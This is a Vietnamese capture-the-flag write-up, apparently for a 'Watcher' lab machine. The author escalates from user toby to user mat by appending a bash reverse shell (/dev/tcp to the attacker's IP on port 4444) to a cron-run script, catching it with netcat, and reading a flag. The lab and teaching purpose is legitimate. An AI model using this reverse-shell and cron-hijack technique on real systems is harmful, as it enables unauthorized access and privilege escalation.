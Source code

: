 ```python
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/1 * * * * mat /home/toby/jobs/cow.sh
```

Vậy là tiến trình này cho user **mat** chạy file `cow.sh`, mà **toby** đang sở hữu file này, nghĩa là **toby** có quyền chỉnh sửa nó. Tôi sẽ thêm shell vào `cow.sh` để khi nó được chạy theo lịch, tôi sẽ chiếm được quyền của **mat**

Trước đó thì tôi phải tạo listener đã

```python
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 4444
listening on [any] 4444 ...
```

Quay lại shell

```python
pwd                                                                  
/home/toby
cd jobs
echo 'bash -c "bash -i >& /dev/tcp/10.8.105.194/4444 0>&1"' >> cow.sh
cat cow.sh
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
bash -c "bash -i >& /dev/tcp/10.8.105.194/4444 0>&1"
```

Chờ một lúc để `cron` làm việc của nó

```python
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.8.105.194] from (UNKNOWN) [10.10.80.186] 35940
bash: cannot set terminal process group (2572): Inappropriate ioctl for device
bash: no job control in this shell
mat@watcher:~$ id
id
uid=1002(mat) gid=1002(mat) groups=1002(mat)
mat@watcher:~$ 
```

Và tôi có flag số 5

```python
mat@watcher:~$ pwd
pwd
/home/mat
mat@watcher:~$ ls
ls
cow.jpg
flag_5.txt
note.txt
scripts
mat@watcher:~$ cat flag_5.txt
cat flag_5.txt
FLAG{live_by_the_cow_die_by_the_cow}
mat@watcher:~$ 
```

